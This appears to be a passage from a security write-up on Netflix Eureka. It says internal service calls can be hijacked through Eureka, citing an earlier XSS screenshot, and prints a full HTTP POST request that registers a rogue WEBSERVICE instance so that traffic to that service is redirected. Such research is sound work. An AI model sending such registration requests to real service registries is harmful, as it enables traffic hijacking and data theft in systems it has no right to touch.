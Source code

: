 ![xss](assets/xss.png) 

We can do the same trick by hijacking internal services calls, leading to information leaking or even more critical vulnerabilities.

## How to Communicate with Eureka

We'll attempt to communicate with Eureka with the following request

```
POST /eureka/apps/WEBSERVICE HTTP/1.1
Accept: application/json, application/*+json
Accept-Encoding: gzip
Content-Type: application/json
User-Agent: Java/11.0.10
Host: 127.0.0.1:8088
Connection: keep-alive
Content-Length: 1015

{"instance":{"instanceId":"host.docker.internal:webservice:8082","app":"WEBSERVICE","appGroupName":null,"ipAddr":"192.168.2.1","sid":"na","homePageUrl":"http://host.docker.internal:8082/","statusPageUrl":"http://host.docker.internal:8082/actuator/info","healthCheckUrl":"http://host.docker.internal:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"webservice","secureVipAddress":"webservice","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"host.docker.internal","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}
```
